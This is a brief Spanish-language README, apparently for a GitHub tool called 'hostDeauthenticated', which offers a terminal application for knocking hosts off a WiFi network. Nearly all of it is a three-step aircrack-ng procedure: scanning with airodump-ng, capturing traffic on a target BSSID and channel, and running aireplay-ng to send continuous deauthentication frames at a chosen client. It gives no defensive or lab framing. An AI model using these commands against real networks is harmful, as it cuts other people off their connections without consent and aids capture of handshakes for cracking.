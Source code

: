 # hostDeauthenticated
Aplicacion de terminal para deautenticar host de una red wifi

1) airodump-ng <INTERFACE>
2) airodump-ng --bssid <BSSID> --channel <CH> --write <Path> <INTERFACE>
3) aireplay-ng -0 0 -a <BSSID> -c <STATION> <INTERFACE>
